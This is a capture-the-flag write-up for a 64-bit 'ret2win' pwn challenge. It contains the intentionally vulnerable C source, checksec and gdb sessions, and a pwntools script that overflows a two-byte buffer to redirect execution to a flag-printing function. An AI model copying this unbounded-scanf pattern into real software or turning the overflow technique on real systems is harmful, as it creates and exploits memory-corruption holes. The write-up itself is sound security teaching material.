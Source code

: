 ```yaml
---
title: " pwn - ret2win"
date: 2023-05-25 16:24 +0300
image: /assets/img/Posts/ret2win.PNG
categories: [InterUniCTF, KCA, pwn, Easy]
tags: [pwn, overflow, binary, ghidra, pwntools, checksec]
---
```

> In this write i will explain how overflow a binary and overwrite the return value with an address of our choice. i this case we will point the execution our the win function that gives us the flag. MAYBE: to do this locally you can get the chall [here](/assets/img/Posts/ret2win/chall) with its source code [here](/assets/img/Posts/ret2win/chall.c). NO decompilation pressure
{: .prompt-tip }

## lets get started
Well, we have the source, we can first take a look at it before we get to the binary

We have three functions `main`, `welcome_message` and `win`. All we need is have `win` function being executed. Unlucky for us, our lovely function is not called in the `main` function. not entirely unlucky though.

In buffer overflow, we are mostly used to seeing the `gets` as the function handling our input, in this case we have `scanf`. It took me a while before i could really understand how this code can be vulnerable. Then i saw that the `scanf` function is taking all our input to the `buff` variable which only stores `2 bytes` (one character only) letting the rest overwrite the values in the stack. sweeeet!!
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

// all the best !! :)
void win(){
	char flag[100];
	const int fd = open("./flag.txt", O_RDONLY);

	if (fd < 0){
		fprintf(stdout, "if this happens on the server, talk to admin, else create a flag.txt file :)");
		fflush(stdout);
	}

	read(fd, flag, sizeof(flag));
	fprintf(stdout, "%s \n", flag);
	fflush(stdout);
}

void welcome_message(){
	fprintf(stdout, "Welcome to the Madness Comrade !\n");
	fflush(stdout);
}

int main(int argc, char **argv){
	void (*f)() = welcome_message;
	char buff[2];
	printf("Do you have anything to say? (y\\n): ");
	fflush(stdout);
	scanf("%s", buff);
	f();
	return 0;
}
```
Checking on the file, we find it is of 64 bit architecture, it is dynamically linked and not stripped which would have helped us very much if we did not have its source file.
```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c88907f681c0259d1ead3c61498b872418d33529, for GNU/Linux 3.2.0, not stripped
```
Let us now check the security of the binary. There is no `canaries` and `No PIE` which means we can overflow without being caught and the address of the `win` function does not change. Thats all we needed, isn't.
```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ checksec --file chall
[*] '/home/kali/hacks/kca/pwn/ret2win/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

To test my logic, went on and fired up `gdb` in my machine. And guess what, setting a break pointer right before the function returns, and reading the values in the rip register, i found it filled with my `aaaaaa`.

```bash
(gdb) b *main+92
Breakpoint 1 at 0x4012c1
(gdb) r
Starting program: /home/kali/hacks/kca/pwn/ret2win/chall 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Do you have anything to say? (y\n): aaaaaaaa

Breakpoint 1, 0x00000000004012c1 in main ()
(gdb) x/1x $rip
0x4012c1 <main+92>:     0x000000b8
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x0000616161616161 in ?? ()
(gdb) x/1x $rip
0x616161616161: Cannot access memory at address 0x616161616161
(gdb) 
```
We know the offset is `2` from the size of the `buff` variable
```c
char buff[2];
```
```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ ./chall
Do you have anything to say? (y\n): aaaaaaaaaaaaaaa
zsh: segmentation fault  ./chall
                                                                                                                                                                       
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ ./chall 
Do you have anything to say? (y\n): aa
zsh: segmentation fault  ./chall
```
<!---
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  printf@plt
0x0000000000401040  read@plt
0x0000000000401050  fprintf@plt
0x0000000000401060  fflush@plt
0x0000000000401070  open@plt
0x0000000000401080  __isoc99_scanf@plt
0x0000000000401090  fwrite@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  win
0x000000000040122c  welcome_message
0x0000000000401265  main
0x00000000004012d0  __libc_csu_init
0x0000000000401330  __libc_csu_fini
0x0000000000401334  _fini
(gdb) 
--->
Now, what do we need to complete our payload? well, remember the goal is to overwrite the return address which the win function's address. So let us go on and look for the `win address` using `gdb`. There it is
```bash
(gdb) p *win
$1 = {<text variable, no debug info>} 0x401186 <win>
(gdb) 
```

### python script to automate the exploitation
With all that information, let us craft a python script that will do everything for us.
```python
#!/usr/bin/env python3
#author: pr0rat

from pwn import *

exe = './chall'
def start(argv=[], *a, **kw):
        if args.REMOTE:
                return remote(sys.argv[1], sys.argv[2], *a, **kw)
        elif args.LOCAL:
                return process([exe] + argv, *a, **kw)
        else:
                print("Usage: ./exploit.py REMOTE <server> <port>")
                print(" OR ./exploit.py LOCAL")
                exit()

p= start()

#because our binary is 64 bit, we user p64 function in pwntools which represents it in 
#little endian format as well as tell the program that it is of a 64 bit architecture
win_addr = p64(0x401186)

payload = b''
payload += b'nn'
payload += win_addr

p.recvuntil(b"): ")
p.sendline(payload)
print(p.recv())
```

Hooray!! with this script, you exploit the buffer overflow, overwrite the return address with the win function address which will give you the flag.

Running it locally 
> NB: It requires you to create a dummy flag.txt for testing.

```bash
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ python3 exploit.py      
Usage: ./exploit.py REMOTE <server> <port>
 OR ./exploit.py LOCAL
                                                                                                                                                                       
┌──(kali㉿prosec)-[~/hacks/kca/pwn/ret2win]
└─$ python3 exploit.py LOCAL
[+] Starting local process './chall': pid 75457
[*] Process './chall' stopped with exit code 0 (pid 75457)
b'flag{just_me_doing_my_tings}\n \n'
```
and in the remote server its just putting the IP and the port as shown from the usage message.

 